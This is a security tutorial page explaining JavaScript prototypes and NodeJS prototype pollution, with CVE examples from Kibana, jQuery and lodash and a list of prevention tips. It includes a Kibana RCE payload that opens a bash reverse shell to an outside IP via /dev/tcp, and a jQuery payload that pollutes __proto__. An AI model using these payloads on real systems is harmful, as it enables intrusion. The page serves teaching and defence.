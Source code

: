 # NodeJS - Prototype Pollution

**This post is based on the one from** [**https://itnext.io/prototype-pollution-attack-on-nodejs-applications-94a8582373e7**](https://itnext.io/prototype-pollution-attack-on-nodejs-applications-94a8582373e7)\*\*\*\*

## Objects in Javascript <a id="053a"></a>

First of all, we need to understand `Object`in javascript. An object is simply a collection of key and value pairs, often called properties of that object. For example:

![](.gitbook/assets/image%20%28398%29.png)

In Javascript, `Object`is a basic object, the template for all newly created objects. It is possible to create an empty object by passing `null`to `Object.create`. However, the newly created object will also have a type that corresponds to the passed parameter and inherits all the basic properties.

```javascript
console.log(Object.create(null)); // prints an empty object
```

![](.gitbook/assets/image%20%28393%29.png)

Previously we learned that an Oject in javascript is  collection of keys and values, so it makes sense that a `null` object is just an empty dictionary: `{}`

## Functions / Classes in Javascript <a id="55dd"></a>

In Javascript, the concepts of the class and the function are quite interrelated \(the function itself acts as the constructor for the class and the actual nature has no concept of “class” in javascript\). Let’s see the following example:

```javascript
function person(fullName, age) {
    this.age = age;
    this.fullName = fullName;
    this.details = function() {
        return this.fullName + " has age: " + this.age;
    }
}
```

![](.gitbook/assets/image%20%28400%29.png)

```javascript
var person1 = new person("Satoshi", 70);
```

![](.gitbook/assets/image%20%28397%29.png)

As you can se from the previous 2 images, the prototype of a function can be accessed form `function.prototype` and from an object of the function via `.__proto__`

## Prototypes in JavaScript <a id="3843"></a>

One thing to note is that the prototype attribute can be changed/modified/deleted when executing the code. For example functions to the class can be dynamically added:

![](.gitbook/assets/image%20%28394%29.png)

Functions of the class ca also be modified \(like `toString` or `valueOf` the following cases\):

![](.gitbook/assets/image%20%28399%29.png)

![](.gitbook/assets/image%20%28396%29.png)

## Inheritance

In a prototype-based program, objects inherit properties/methods from classes. The classes are derived by adding properties/methods to an instance of another class or by adding them to an empty object.

Note that, if you add a property to an object that is used as the prototype for a set of objects \(like the myPersonObj\), the objects for which it is the prototype also get the new property, but that property is not printed unless specifically called on.

![](.gitbook/assets/image%20%28395%29.png)

## Prototype Pollution <a id="0d0a"></a>

So where’s the prototype pollution? It happens when there’s a bug in the application that makes it possible to overwrite properties of `Object.prototype`. Since every typical object inherits its properties from `Object.prototype`, we can change application behavior. The most commonly shown example is the following:

```javascript
if (user.isAdmin) {   // do something important!}
```

Imagine that we have a prototype pollution that makes it possible to set `Object.prototype.isAdmin = true`. Then, unless the application explicitly assigned any value, `user.isAdmin` is always true!

![](https://research.securitum.com/wp-content/uploads/sites/2/2019/10/image-1.png)

For example, `obj[a][b] = value`. If the attacker can control the value of `a` and `value`, then he only needs to adjust the value of `a`to `__proto__`\(in javascript, `obj["__proto__"]` and `obj.__proto__`are completely equivalent\) then property `b` of all existing objects in the application will be assigned to `value`.

However, the attack is not as simple as the one above, according to [paper](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf), we can only attack when one of the following three conditions is met:

* Perform recursive merge
* Property definition by path
* Clone object

Let’s look through some errors:

### CVE-2019-7609

In [https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/) you can see a way to exploit this vulnerability and obtain a RCE abusing environmental variables:

```javascript
env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//'
env.NODE_OPTIONS='--require /proc/self/environ'
```

### CVE-2019–11358: Prototype pollution attack through jQuery $ .extend

$ .extend, if handled incorrectly, can change the properties of the object `prototype`\(the template of the objects in the app\). This attribute will then appear on all objects. Note that only the “deep” version \(ie g\) of $ .extened is affected.

Programmers often use this function to duplicate an object or fill in new properties from a default object. For example:

We can imagine `myObject`is an input field from the user and is serialized into the DB\)

In this code, we often think, when running will assign the attribute `isAdmin`into the newly created object. But essentially, it is assigned directly to `{}` and then `{}.isAdmin` will be `true`. If after this code, we perform the following check:

```javascript
If (user.isAdmin === true) {
    // do something for admin
}
```

If the user has not yet existed \( `undefined`\), the property`isAdmin`will be searched in its parent object, which is the Object added `isAdmin` with the value `true` above.

Another example when executed on JQuery 3.3.1:

```javascript
$.extend(true, {}, JSON.parse('{"__proto__": {"devMode": true}}'))
console.log({}.devMode); // true
```

These errors can affect a lot of Javascript projects, especially NodeJS projects, the most practical example is the error in Mongoose, the JS library that helps manipulate MongoDB, in December 2018.

### CVE-2018–3721, CVE-2019–10744: Prototype pollution attack through lodash

[Lodash](https://www.npmjs.com/package/lodash) is also a well-known library that provides a lot of different functions, helping us to write code more conveniently and more neatly with over 19 million weekly downloads. And It got the same problem as JQuery.

**CVE-2018–3721**

**CVE-2019–10744**

This bug affects all versions of Lodash, already fixed in version 4.17.11.

### What can I do to prevent?

* Freeze properties with Object.freeze \(Object.prototype\)
* Perform validation on the JSON inputs in accordance with the application’s schema
* Avoid using recursive merge functions in an unsafe manner
* Use objects without prototype properties, such as `Object.create(null)`, to avoid affecting the prototype chain
* Use `Map`instead of `Object`
* Regularly update new patches for libraries

## Reference

* [https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
* [https://dev.to/caffiendkitten/prototype-inheritance-pollution-2o5l](https://dev.to/caffiendkitten/prototype-inheritance-pollution-2o5l)

